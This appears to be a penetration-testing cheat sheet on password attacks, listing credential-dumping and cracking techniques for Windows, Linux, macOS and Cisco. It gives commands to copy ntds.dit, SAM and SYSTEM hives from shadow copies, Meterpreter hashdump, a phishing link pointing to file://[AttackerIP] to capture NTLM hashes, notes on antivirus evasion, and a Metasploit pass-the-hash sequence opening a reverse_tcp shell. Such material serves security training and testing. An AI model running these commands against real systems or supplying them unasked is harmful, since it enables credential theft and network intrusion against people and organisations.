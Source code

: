 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```

 
> **Obtain Windows Passswords**

**[Mimikatz](https://github.com/gentilkiwi/mimikatz)**
1. Determine architecture (32 vs 64 bit)
2. Determine if you have admin privs 
http://www.blackhillsinfosec.com/?p=5555


**PWDUMP**
[Pwdump 7 - File is dropped to disk and caught by AV](http://www.tarasco.org/security/pwdump_7/)
[fgdump - File Dropped to Disk Caught by AV, Source available to evade AV](http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version)
[Other versions of pwdump](http://www.openwall.com/passwords/windows-pwdump)

**Metasploit hashdump**
{% highlight bash %}
meterpreter >hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry) </code>

{% endhighlight %}
	
**Volume Shadow Copy Service (domain controller)**

Required Tools:
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

{% highlight bash %}
cscript vssown.vbs /status or /start or /create /c
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with ntds Dump Hash
{% endhighlight %}



**Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}

> **Linux Password Locations** 

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>

> **Password Guessing**

Hyrda

> **Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>

> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)

> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>

> **Pass the Hash**

***May require RID 500 account due to patch***
	
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd


